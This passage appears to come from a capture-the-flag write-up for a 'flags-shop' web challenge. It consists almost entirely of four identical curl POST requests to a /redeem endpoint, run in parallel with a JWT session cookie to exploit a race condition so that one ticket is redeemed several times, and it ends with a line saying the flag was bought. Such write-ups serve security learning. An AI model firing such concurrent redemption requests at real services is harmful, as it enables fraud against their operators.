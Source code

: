 ```
curl 'https://0pgbey7np8cph3b-flags-shop.insts.bsides.shellmates.club//redeem' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: https://0pgbey7np8cph3b-flags-shop.insts.bsides.shellmates.club/' -H 'Connection: keep-alive' -H 'Referer: https://0pgbey7np8cph3b-flags-shop.insts.bsides.shellmates.club/' -H 'Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluMyIsInRpY2tldF9yZWdleCI6IiguKmEpezIwfSIsImV4cCI6MTY4MzU2NDAxM30.mfTMh4WvJT3oXyjqDLvjUn_gtkg_z748Qq1ob9BXuVY' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-User: ?1' --data-raw 'ticket=aaaaaaaaaaaaaaaaaaaaaaaaaaaa' & curl 'https://0pgbey7np8cph3b-flags-shop.insts.bsides.shellmates.club//redeem' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: https://0pgbey7np8cph3b-flags-shop.insts.bsides.shellmates.club/' -H 'Connection: keep-alive' -H 'Referer: https://0pgbey7np8cph3b-flags-shop.insts.bsides.shellmates.club/' -H 'Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluMyIsInRpY2tldF9yZWdleCI6IiguKmEpezIwfSIsImV4cCI6MTY4MzU2NDAxM30.mfTMh4WvJT3oXyjqDLvjUn_gtkg_z748Qq1ob9BXuVY' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-User: ?1' --data-raw 'ticket=aaaaaaaaaaaaaaaaaaaaaaaaaaaa' & curl 'https://0pgbey7np8cph3b-flags-shop.insts.bsides.shellmates.club//redeem' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: https://0pgbey7np8cph3b-flags-shop.insts.bsides.shellmates.club/' -H 'Connection: keep-alive' -H 'Referer: https://0pgbey7np8cph3b-flags-shop.insts.bsides.shellmates.club/' -H 'Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluMyIsInRpY2tldF9yZWdleCI6IiguKmEpezIwfSIsImV4cCI6MTY4MzU2NDAxM30.mfTMh4WvJT3oXyjqDLvjUn_gtkg_z748Qq1ob9BXuVY' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-User: ?1' --data-raw 'ticket=aaaaaaaaaaaaaaaaaaaaaaaaaaaa' & curl 'https://0pgbey7np8cph3b-flags-shop.insts.bsides.shellmates.club//redeem' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: https://0pgbey7np8cph3b-flags-shop.insts.bsides.shellmates.club/' -H 'Connection: keep-alive' -H 'Referer: https://0pgbey7np8cph3b-flags-shop.insts.bsides.shellmates.club/' -H 'Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluMyIsInRpY2tldF9yZWdleCI6IiguKmEpezIwfSIsImV4cCI6MTY4MzU2NDAxM30.mfTMh4WvJT3oXyjqDLvjUn_gtkg_z748Qq1ob9BXuVY' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-User: ?1' --data-raw 'ticket=aaaaaaaaaaaaaaaaaaaaaaaaaaaa'
```

We get back to our page, refresh, we see the score updated. We buy the real flag.

